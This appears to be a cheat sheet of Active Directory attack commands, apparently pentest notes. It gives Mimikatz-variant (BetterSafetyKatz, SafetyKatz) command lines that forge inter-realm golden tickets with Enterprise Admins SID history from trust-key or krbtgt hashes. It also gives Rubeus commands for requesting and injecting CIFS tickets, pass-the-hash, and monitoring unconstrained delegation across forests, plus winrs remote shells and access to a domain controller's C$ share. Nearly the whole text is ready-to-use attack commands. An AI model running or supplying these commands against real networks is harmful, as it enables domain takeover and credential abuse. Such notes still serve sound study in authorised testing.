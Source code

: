 Create inter-realm TGT with trust key hash
```Powershell
BetterSafetyKatz.exe "kerberos::golden /domain:<current_domain> /sid:<current_domain_sid> /sids:<parent_domain_enterprise_admin_sid> /rc4:<trustkey_ntlm> /user:Administrator /service:krbtgt /target:<parent_domain> /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"

# OR

BetterSafetyKatz.exe "kerberos::golden /domain:<current_domain> /sid:<current_domain_sid> /sids:<parent_domain_enterprise_admin_sid> /aes256:<trustkey_aes256> /user:Administrator /service:krbtgt /target:<parent_domain> /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"
```

Reqest TGS for CIFS on parent DC
```Powershell
Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:CIFS/<parent_dc>.<parent_domain> /dc:<parent_dc>.<parent_domain> /ptt
```

Access techcorp-dc's filesystem
```Powershell
dir \\<parent_dc>.<parent_domain>\C$
```


### Inter-realm TGT with Enterprise Admins SIDHistory

Create inter realm TGT with SID history set to Enterprise Admins
sid: sid current domain
sids: sid of enterprise admin group of parent domain
krbtgt: krbtgt NTLM hash of current domain
```Powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:<current_domain> /sid:<current_domain_sid> /sids:<parent_domain_enterprise_admin_sid> /krbtgt:<current_domain_krbtgt_ntlm_hash> /ptt" "exit"
```

### Cross-forest unconstrained delegation

Works for unconstrained delegation server in currents domain

Copy Rubeus to target
```Powershell
SafetyKatz.exe "sekurlsa::pth /user:<user> /domain:<domain> /aes256:<hash> /run:cmd.exe" "exit"

# Or

Rubeus.exe asktgt /domain:<domain> /user:<user> /aes:<hash> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt


winrs -r:<target> cmd
```

Run rubeus in monitor mode
```Powershell
Rubeus.exe monitor /targetuser:<SERVER>$ /interval:5 /nowrap
```
